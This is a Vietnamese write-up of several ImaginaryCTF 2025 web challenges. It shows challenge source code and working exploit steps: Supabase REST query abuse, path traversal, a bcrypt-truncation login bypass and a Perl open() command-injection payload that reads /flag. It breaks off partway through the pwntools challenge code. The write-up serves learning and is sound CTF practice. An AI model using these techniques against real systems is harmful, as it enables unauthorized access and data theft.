:::note[Introduction]
Lâu lắm rồi mình mới có hứng để viết writeup, mình sẽ viết wup tất cả các bài web của giải này. Các bài nhìn chung khá hay và ảo ma. Bắt đầu thui nhể
:::

## I. imaginary-notes 
### 1. Description
Số solve: 491 solves
```
I made a new note taking app using Supabase! Its so secure, I put my flag as the password to the "admin" account. I even put my anonymous key somewhere in the site. The password database is called, "users". http://imaginary-notes.chal.imaginaryctf.org
```
### 2. Phân tích
Vì là 1 bài blackbox nên ta phải xem trước hết là web có gì đã



Nhìn vào thì ta thấy rằng đây chỉ đơn giản là 1 web cho phép ta add note thôi chứ cũng không có gì mà khai thác cả. Tuy nhiên, nhìn vào request thì ta sẽ thấy điều đặc biệt



Mọi người có thể dễ dàng nhận ra ở phần path của request có nhận những param tạo thành 1 câu lệnh truy vấn sql hoàn chỉnh

- Request ta có: `/rest/v1/users?select=*&username=eq.kou&password=eq.123`
- Ta thấy chúng tương đồng với câu lệnh `SELECT * FROM users WHERE username = kou AND password = 123`

Đầu bài có nói với ta là cần truy vấn user `admin` để lấy flag

### 3. Khai thác

Dựa trên những gì chúng ta vừa phân tích, chỉ cần đơn giản là để `username=admin` và bỏ đi phần `password` là ta đã có flag

Get request cuối cùng: `GET /rest/v1/users?select=*&username=eq.admin`

Sau khi thực hiện xong request này, ta thấy flag ở password

### 4. Flag
`ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}`

## II. certificate
### 1. Description
Số solve: 390 solves
```
As a thank you for playing our CTF, we're giving out participation certificates! Each one comes with a custom flag, but I bet you can't get the flag belonging to Eth007!

https://eth007.me/cert/
```

### 2. Phân tích
Tiếp tục là 1 bài blackbox, ta lại phải xem web có những gì đặc biệt không



Ta có thể điều chỉnh name, title, print hoặc download. Mình cũng thử qua các tính năng rồi, cũng không có gì quá đặc sắc. Ta thử mở devtool lên xem sao.

```js
const nameInput=document.getElementById('name');
const affInput=document.getElementById('affiliation');
const dateInput=document.getElementById('date');
const styleSelect=document.getElementById('style');
const svgHolder=document.getElementById('svgHolder');

const paperW=1122, paperH=794;
const logoUrl = 'https://2025.imaginaryctf.org/img/logo.png';

(function(){const d=new Date();dateInput.value=d.toISOString().slice(0,10)})();

function getStyleColors(style){
  if(style==='modern') return {bg:'#f7fff9', primary:'#0f766e', accent:'#0ea5a4', text:'#073040'};
  if(style==='dark') return {bg:'#0b1220', primary:'#0f1724', accent:'#8b5cf6', text:'#e6eef8'};
  return {bg:'#fbfdff', primary:'#eaf4ff', accent:'#1f6feb', text:'#07203a'};
}
function escapeXml(s){return String(s||"").replace(/[&<>'"]/g,c=>({"&":"&amp;","<":"&lt;",">":"&gt;","'":"&apos;",'"':"&quot;"}[c]))}

function customHash(str){
  let h = 1337;
  for (let i=0;i<str.length;i++){
    h = (h * 31 + str.charCodeAt(i)) ^ (h >>> 7);
    h = h >>> 0; // force unsigned
  }
  return h.toString(16);
}

function makeFlag(name){
  const clean = name.trim() || "anon";
  const h = customHash(clean);
  return `ictf{${h}}`;
}

function buildCertificateSVG({participant,affiliation,date,styleKey}) {
  const colors = getStyleColors(styleKey);
  participant = escapeXml(participant||"—");
  affiliation = escapeXml(affiliation||"");
  date = escapeXml(date||"");
  return `
<svg xmlns="http://www.w3.org/2000/svg" width="${paperW}" height="${paperH}" viewBox="0 0 ${paperW} ${paperH}">
  <desc>${makeFlag(participant)}</desc>
  <rect width="100%" height="100%" fill="${colors.bg}"/>
  <rect x="40" y="40" width="${paperW-80}" height="${paperH-80}" rx="18" fill="${colors.primary}" opacity="0.08"/>
  <rect x="60" y="60" width="${paperW-120}" height="${paperH-120}" rx="14" fill="#ffffff"/>
  <image href="${logoUrl}" x="${paperW/2-100}" y="80" width="200" height="200" preserveAspectRatio="xMidYMid meet"/>
  <text x="${paperW/2}" y="340" text-anchor="middle" font-family="Georgia, serif" font-size="34" fill="${colors.text}">Certificate of Participation</text>
  <text x="${paperW/2}" y="380" text-anchor="middle" font-size="16" fill="${colors.text}" opacity="0.7">This certifies that</text>
  <text x="${paperW/2}" y="460" text-anchor="middle" font-size="48" font-weight="700" font-family="'Segoe UI',sans-serif" fill="${colors.text}">${participant}</text>
  <text x="${paperW/2}" y="505" text-anchor="middle" font-size="18" fill="${colors.text}" opacity="0.7">${affiliation}</text>
  <text x="${paperW/2}" y="560" text-anchor="middle" font-family="Georgia, serif" font-size="16" fill="${colors.text}" opacity="0.8">
    For popping shells, cracking codes, and capturing flags in ImaginaryCTF 2025.
  </text>
  <text x="${paperW/2}" y="620" text-anchor="middle" font-family="Roboto, sans-serif" font-size="14" fill="${colors.text}" opacity="0.7">Date: ${date}</text>
</svg>`.trim();
}

function renderPreview(){
  var name = nameInput.value.trim();
  if (name == "Eth007") {
    name = "REDACTED"
  } 
  const svg = buildCertificateSVG({
    participant: name || "Participant Name",
    affiliation: affInput.value.trim() || "Participant",
    date: dateInput.value,
    styleKey: styleSelect.value
  });
  svgHolder.innerHTML = svg;
  svgHolder.dataset.currentSvg = svg;
}

function downloadSvgFile(filename, svgText){
  const blob = new Blob([svgText], {type: "image/svg+xml;charset=utf-8"});
  const url = URL.createObjectURL(blob);
  const a = document.createElement('a');
  a.href = url;
  a.download = filename;
  document.body.appendChild(a);
  a.click();
  a.remove();
  setTimeout(()=>URL.revokeObjectURL(url), 1000);
}

document.getElementById('generate').addEventListener('click', e=>{
  e.preventDefault();
  renderPreview();
});
document.getElementById('downloadSvg').addEventListener('click', e=>{
  e.preventDefault();
  const svg = svgHolder.dataset.currentSvg;
  const nameFile = (nameInput.value.trim() || 'certificate').replace(/\s+/g,'_').toLowerCase();
  downloadSvgFile(`${nameFile}_imaginaryctf2025.svg`, svg);
});
document.getElementById('printBtn').addEventListener('click', e=>{
  e.preventDefault();
  window.print();
});

renderPreview();
```

Đại khái là server sẽ nhận name và title rồi chỉnh chúng trong cái cert sao cho đúng. Nếu name là `Eth007` thì sẽ trả về `REACTED`. Điều này khá là kì lạ vì trong đoạn code không có đoạn nào nói là nếu đúng username đó thì in ra flag. Ngoài ra, ta còn thấy 1 hàm tên là `makeFlag`, nhận param `name` và trả về `ictf{<hash của name>}`. Rõ ràng là đầu bài đang muốn chúng ta sử dụng hàm này với username là `Eth007`

### 3. Khai thác

Trên console, nhập lệnh

```js
makeFlag("Eth007")
```

### 4. Flag
`ictf{7b4b3965}`

## III. codenames-1
### 1. Description
Số solve: 317 solves
```
I hear that multilingual codenames is all the rage these days. Flag is in /flag.txt.

http://codenames-1.chal.imaginaryctf.org/ (bot does not work on this instance, look at codenames-2 for working bot)
```
### 2. Phân tích
Với bài này, ta sẽ được chơi 1 tựa game lật chữ



Lưu ý là bài này có 2 flag, và ở phần 1 ta chỉ tập trung lấy flag đầu tiên, là ở `/flag.txt`

Trước tiên, mọi người hãy tập trung vào phần này

```python
@app.route('/create_game', methods=['POST'])
def create_game():
    if 'username' not in session:
        return redirect(url_for('index'))
    # generate unique code
    while True:
        code = ''.join(random.choices(string.ascii_uppercase + string.digits, k=6))
        if code not in games:
            break
    # prepare game with selected language word list
    # determine language (default to first available)
    language = request.form.get('language', None)
    if not language or '.' in language:
        language = LANGUAGES[0] if LANGUAGES else None
    # load words for this language
    word_list = []
    if language:
        wl_path = os.path.join(WORDS_DIR, f"{language}.txt")
        try:
            with open(wl_path) as wf:
                word_list = [line.strip() for line in wf if line.strip()]
        except IOError as e:
            print(e)
            word_list = []
    # fallback if needed
    if not word_list:
        word_list = []
    # pick 25 random words
    words = random.sample(word_list, 25) if len(word_list) >= 25 else random.sample(word_list * 25, 25)
    start_team = random.choice(['red', 'blue'])
    counts = {
        'red': 9 if start_team == 'red' else 8,
        'blue': 9 if start_team == 'blue' else 8
    }
    # assign colors by index to support duplicate words
    indices = list(range(25))
    random.shuffle(indices)
    colors_list = [None] * 25
    # one assassin
    assassin_idx = indices.pop()
    colors_list[assassin_idx] = 'assassin'
    # team words
    for team in ['red', 'blue']:
        for _ in range(counts[team]):
            idx = indices.pop()
            colors_list[idx] = team
    # the rest are neutral
    for idx in indices:
        colors_list[idx] = 'neutral'
    # determine hard mode (double win points)
    hard_mode = bool(request.form.get('hard_mode'))
    # initialize game state
    game = {
        'players': [session['username']],
        'board': words,
        'colors': colors_list,
        'revealed': [False] * 25,
        'start_team': start_team,
        'team_color': start_team,
        'clue_giver': None,
        'clue': None,
        'guesses_remaining': 0,
        'score': 0,
        'hard_mode': hard_mode,
        'bots': []
    }
    games[code] = game
    return redirect(url_for('game_view', code=code))
```

Biến `language` được lấy từ form của request `POST` của endpoint `/create_game` mà không hề được kiểm soát. Sau đó, biến `language` được nối với `WORDS_DIR`, tạo thành biến `wl_path` có `<WORDS_DIR>/<language>.txt`. Sau đó server sẽ mở file `wl_path` ra và lấy giá trị trong đấy và tách chúng thành từng phần tử 1 của list theo cách dòng. Tóm lại, đến đây ta nhận ra rằng, ta có thể thực hiện path traversal cực kì đơn giản ở đây. Chỉ cần `language=/flag` là ta có thể có flag

### 3. Khai thác

Thực hiện request như sau



Và ta có màn jumpscare



### 4. Flag
`ictf{common_os_path_join_L_b19d35ca}`

## IV. passwordless
### 1. Description
Số solve: 290 solves
```
Didn't have time to implement the email sending feature but that's ok, the site is 100% secure if nobody knows their password to sign in!

http://passwordless.chal.imaginaryctf.org
```

### 2. Phân tích
Xem thử source code xem nào

File `index.js`: 
```javascript
const bcrypt = require('bcrypt');
const sqlite3 = require('sqlite3').verbose()
const db = new sqlite3.Database(':memory:')
const normalizeEmail = require('normalize-email')
const crypto = require('crypto')
const path = require('path')
const express = require('express')
const session = require('express-session');
const rateLimit = require('express-rate-limit');


db.serialize(() => {
    db.run('CREATE TABLE users (email TEXT UNIQUE, password TEXT)')
})

const limiter = rateLimit({
    windowMs: 60 * 1000, // 1 minute
    limit: 10,
    standardHeaders: 'draft-8',
    legacyHeaders: false,
    handler: (req, res) => res.render('limited')
})

const app = express()

app.set('view engine', 'ejs');
app.set('views', path.join(__dirname, 'views'));

app.use(express.urlencoded())

app.use(session({
    resave: false,
    saveUninitialized: false,
    secret: crypto.randomBytes(64).toString('hex')
}));

app.use((req, res, next) => {
    var err = req.session.error;
    var msg = req.session.message;
    delete req.session.error;
    delete req.session.message;
    res.locals.err = '';
    res.locals.msg = '';
    res.locals.user = '';
    if (err) res.locals.err = err;
    if (msg) res.locals.msg = msg;
    if (req.session.user) res.locals.user = req.session.user.email.split("@")[0]
    next();
});

function restrict(req, res, next) {
    if (req.session.user) {
        next();
    } else {
        req.session.error = 'You need to be logged in to view this page'
        res.redirect('/login');
    }
}

function authenticated(req, res, next) {
    if (req.session.user) {
        res.redirect('/dashboard');
    } else {
        next();
    }
}

function authenticate(email, password, fn) {
    db.get(`SELECT * FROM users WHERE email = ?`, [email], (err, user) => {
        if (err) return fn(err, null)
        if (user && bcrypt.compareSync(password, user.password)) {
            return fn(null, user)
        } else {
            return fn(null, null)
        }
    });
}

app.post('/session', limiter, (req, res, next) => {
    if (!req.body) return res.redirect('/login')

    const email = normalizeEmail(req.body.email)
    const password = req.body.password

    authenticate(email, password, (err, user) => {
        if (err) return next(err)
        if (user) {
            req.session.regenerate(() => {
                req.session.user = user;
                res.redirect('/dashboard');
            });
        } else {
            req.session.error = 'Failed to log in'
            res.redirect('/login');
        }
    })
})

app.post('/user', limiter, (req, res, next) => {
    if (!req.body) return res.redirect('/login')

    const nEmail = normalizeEmail(req.body.email)

    if (nEmail.length > 64) {
        req.session.error = 'Your email address is too long'
        return res.redirect('/login')
    }

    const initialPassword = req.body.email + crypto.randomBytes(16).toString('hex')
    bcrypt.hash(initialPassword, 10, function (err, hash) {
        if (err) return next(err)

        const query = "INSERT INTO users VALUES (?, ?)"
        db.run(query, [nEmail, hash], (err) => {
            if (err) {
                if (err.code === 'SQLITE_CONSTRAINT') {
                    req.session.error = 'This email address is already registered'
                    return res.redirect('/login')
                }
                return next(err)
            }

            // TODO: Send email with initial password

            req.session.message = 'An email has been sent with a temporary password for you to log in'
            res.redirect('/login')
        })
    })
})

app.get('/register', authenticated, (req, res) => {
    res.render('register');
});

app.get('/login', authenticated, (req, res) => {
    res.render('login');
});

app.get('/logout', (req, res) => {
    req.session.destroy(function () {
        res.redirect('/login');
    });
});

app.get('/dashboard', restrict, (req, res) => {
    res.render('dashboard');
});

app.get('/', (req, res) => res.redirect('/dashboard'))

const port = 3000
app.listen(port, () => {
    console.log(`Example app listening on port ${port}`)
})
```

Bài này thì mình từng làm 1 bài tương tự nhưng bên python rồi nên mình biết làm ntn. Nhưng trước hết, nói sơ qua về các hàm đã

-  Hàm `authenticate` nhận 3 param là `email`, `password` và `fn`. Hàm sẽ truy vấn database bằng truy vấn `SELECT * FROM users WHERE email = <email>` với bind param và tìm password của email đó, sau đó so password trong database với `password` bằng hàm `bcrypt`. 

- Tiếp theo, ta có endpoint `/user`. Đây là endpoint cho phép đăng kí `email` và `password`. Đầu tiên, `email` được lấy từ body và thực hiện chuẩn hóa, sử dụng hàm `normalizeEmail`. Sau đó, nó sẽ check độ dài của `email` và gán cho `nEmail`, `nEmail` bắt buộc phải có độ dài nhỏ hơn 64. Sau đó, server sẽ tạo 1 `password` có cấu trúc bao gồm `<email>+<16 random hex>`. Và vậy thôi, không thèm gửi cho user luôn.

- Cuối cùng, endpoint `/session` cho phép ta đăng nhập

Vậy thì sơ qua. Ta có 1 website mà khi đăng kí ta sẽ không biết password là gì và 1 chỗ để đăng nhập. Vậy thì đăng nhập sẽ có flag, đúng chứ. Ừ chuẩn luôn.

File `dashboard.ejs`:

```javascript
 <span id="flag"><%- process.env.FLAG %></span>
```

Vậy tại sao mình lại nói bài này quen. Lý do là bởi vì, bcrypt chỉ so đến byte 72 đầu, những byte sau hoàn toàn bỏ qua. Vậy thì, nếu ta có thể tạo 1 email có độ dài là 72 kí tự, thì với password là chính cái email đó, ta sẽ bypass được qua hàm bcrypt. Nhưng, có 1 vấn đề, server check email có độ dài nhỏ hơn 64, vậy ta làm thế nào. Thực ra, coder code ra trang web này đã mắc 1 sai lầm, đó là check len của `nEmail`, tức là email đã bị chuẩn hóa, rồi sau đó lại sử dụng `email` để tạo password chứ không phải `nEmail`. 

Hàm chuẩn hóa email `normalizeEmail` sẽ loại bỏ toàn bộ các kí tự không phù hợp trong email. Ví dụ: `kou3..........................................................@gmail.com` sẽ trở thành `kou3@gmail.com`. Do đó, hàm check len sẽ không còn là vấn đề nữa, vì cái được vác đi so độ dài, là email chuẩn hóa. Ngoài ra, `nEmail` cũng được đưa vào database, tạo điều kiện vô cùng thuận lợi cho ta.

### 3. Khai thác
- Step 1: Đăng kí 1 tài khoản có email là `kou3..........................................................@gmail.com`
- Step 2: Đăng nhập với tài khoản là `kou3@gmail.com` và password là `kou3..........................................................@gmail.com`
- Step 3: Lụm flag

### 4. Flag
`ictf{8ee2ebc4085927c0dc85f07303354a05}`

## V. Pearl
### 1. Description
Số solve: 156 solves
```
I used perl to make my pearl shop. Soon, we will expand to selling Perler bead renditions of Perlin noise.

http://pearl.chal.imaginaryctf.org
```
### 2. Phân tích

Bắt đầu từ bài này, mình sẽ viết writeup sau giải

Bài này thì mọi người chỉ cần chú ý đến file pearl của nó 

File `server.pl`:

```pl
#!/usr/bin/perl

use strict;
use warnings;
use HTTP::Daemon;
use HTTP::Status;
use File::Spec;
use File::MimeInfo::Simple;  # cpan install File::MimeInfo::Simple
use File::Basename;
use CGI qw(escapeHTML);

my $webroot = "./files";

my $d = HTTP::Daemon->new(LocalAddr => '0.0.0.0', LocalPort => 8080, Reuse => 1) || die "Failed to start server: $!";

print "Server running at: ", $d->url, "\n";

while (my $c = $d->accept) {
    while (my $r = $c->get_request) {
        if ($r->method eq 'GET') {
            my $path = CGI::unescape($r->uri->path);
            $path =~ s|^/||;     # Remove leading slash
            $path ||= 'index.html';

            my $fullpath = File::Spec->catfile($webroot, $path);

            if ($fullpath =~ /\.\.|[,\`\)\(;&]|\|.*\|/) {
                $c->send_error(RC_BAD_REQUEST, "Invalid path");
                next;
            }

            if (-d $fullpath) {
                # Serve directory listing
                opendir(my $dh, $fullpath) or do {
                    $c->send_error(RC_FORBIDDEN, "Cannot open directory.");
                    next;
                };

                my @files = readdir($dh);
                closedir($dh);

                my $html = "<html><body><h1>Index of /$path</h1><ul>";
                foreach my $f (@files) {
                    next if $f =~ /^\./;  # Skip dotfiles
                    my $link = "$path/$f";
                    $link =~ s|//|/|g;
                    $html .= qq{<li><a href="/$link">} . escapeHTML($f) . "</a></li>";
                }
                $html .= "</ul></body></html>";

                my $resp = HTTP::Response->new(RC_OK);
                $resp->header("Content-Type" => "text/html");
                $resp->content($html);
                $c->send_response($resp);

            } else {
                open(my $fh, $fullpath) or do {
                    $c->send_error(RC_INTERNAL_SERVER_ERROR, "Could not open file.");
                    next;
                };
                binmode $fh;
                my $content = do { local $/; <$fh> };
                close $fh;

                my $mime = 'text/html';

                my $resp = HTTP::Response->new(RC_OK);
                $resp->header("Content-Type" => $mime);
                $resp->content($content);
                $c->send_response($resp);
            }
        } else {
            $c->send_error(RC_METHOD_NOT_ALLOWED);
        }
    }
    $c->close;
    undef($c);
}
```

Khi mà request được accept, thì nó sẽ check method, bắt buộc phải là `GET` thì mới tiếp tục
- Đầu tiên, server sẽ lấy phần path từ request và unescape nó
- Tiếp theo, xóa đi dấu `/` ở đầu, và thực hiện nối chuỗi `path` với `webroot`, ở đây là `.file`, tạo thành `fullpath`. 
- Sau đó, `fullpath` không được chứa `..`, các kí tự ```,\`\)\(;&``` và một chuỗi dạng `|<bất cứ kí tự nào>|`
- Sau đó nó sẽ in ra tất cả các file của folder đó, và mở nó nếu nó là file

Bài này trong giải tôi không có hướng, vì ngôn ngữ lạ quá. Sau giải, tôi hóng được có người bảo rằng


Thế là tôi áp dụng ngay, payload: `http://pearl.chal.imaginaryctf.org/%0als%20-la%7C/`



Nó thật sự hoạt động. Vậy phần còn lại thì dễ rồi

### 3. Khai thác

Payload: 
```
http://pearl.chal.imaginaryctf.org/%0acat%20/flag*%7C/
```

### 4. Flag
`ictf{uggh_why_do_people_use_perl_1f023b129a22}`

Tôi cũng ko hiểu tại sao nó lại ảo ma vậy :)))

## VI. pwntools
### 1. Description
Số solve: 52 solves
```
i love pwntools

Instancer: nc 34.72.72.63 4242
```
### 2. Phân tích
Do tôi viết bài này sau giải (vì trong giải có giải đc đâu) nên không vô được web, ta đành xem source. Bài này vô cùng ảo ma.

File app.py: 
```python
import socket, select, base64, random, string, os, threading
from urllib.parse import urlparse, parse_qs
from datetime import datetime
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.support.ui import WebDriverWait
from webdriver_manager.chrome import ChromeDriverManager

HOST = "0.0.0.0"
PORT = 8080

routes = {}
accounts = {}

FLAG_FILE = "./flag.txt"

admin_password = ''.join(random.choices(string.ascii_letters + string.digits, k=12))
accounts["admin"] = admin_password
print(f"[+] Admin password: {admin_password}")

def route(path):
    """Register route"""
    def decorator(func):
        routes[path] = func
        return func
    return decorator

def build_response(body, status=200, headers=None, keep_alive=True):
    status_line = f"HTTP/1.1 {status} {'OK' if status==200 else 'ERROR'}"
    default_headers = {
        "Content-Type": "text/html",
        "Content-Length": str(len(body)),
        "Server": "pwnserver/1.0",
        "Connection": "keep-alive" if keep_alive else "close"
    }
    if headers:
        default_headers.update(headers)
    header_lines = [f"{k}: {v}" for k,v in default_headers.items()]
    return "\r\n".join([status_line]+header_lines+["",""])+body

# home
@route("/")
def index(method, body, query=None, headers=None, client_addr=None):
    with open("files/index.html", "r") as f:
        return build_response(f.read())

# flag route for admin
@route("/flag")
def flag_route(method, body, query=None, headers=None, client_addr=None):
    if 'authorization' not in headers:
        return build_response("Missing Authorization header", status=401, headers={"WWW-Authenticate": 'Basic realm="Login Required"'})

    auth = headers['authorization']
    if not auth.startswith("Basic "):
        return build_response("Invalid Authorization method", status=401, headers={"WWW-Authenticate": 'Basic realm="Login Required"'})

    try:
        encoded = auth.split()[1]
        decoded = base64.b64decode(encoded).decode()
        username, password = decoded.split(":",1)
    except Exception as e:
        print(e)
        return build_response("Malformed Authorization header", status=401, headers={"WWW-Authenticate": 'Basic realm="Login Required"'})

    if accounts.get(username) == password and username == "admin":
        if os.path.exists(FLAG_FILE):
            with open(FLAG_FILE, "r") as f:
                flag_content = f.read()
            return build_response(f"<pre>{flag_content}</pre>")
        else:
            return build_response("<h1>Flag file not found</h1>", status=404)
    else:
        return build_response("Unauthorized", status=401, headers={"WWW-Authenticate": 'Basic realm="Login Required"'})

# internal register route
@route("/register")
def register_route(method, body, query=None, headers=None, client_addr=None):
    if method.upper() != "POST":
        return build_response("Method not allowed", status=405)

    if client_addr[0] != "127.0.0.1":
        return build_response("Access denied", status=401)

    username = headers.get("x-username")
    password = headers.get("x-password")

    if not username or not password:
        return build_response("Missing X-Username or X-Password header", status=400)

    accounts[username] = password
    return build_response(f"User '{username}' registered successfully!")

@route("/visit")
def visit_route(method, body, query=None, headers=None, client_addr=None):
    if method.upper() != "POST":
        return build_response("Method not allowed", status=405)

    target = headers.get("x-target")
    if not target:
        return build_response("Missing X-Target header", status=400)

    def visit_site(url):
        options = Options()
        options.add_argument("--headless")
        options.add_argument("--no-sandbox")
        options.add_argument("--disable-dev-shm-usage")

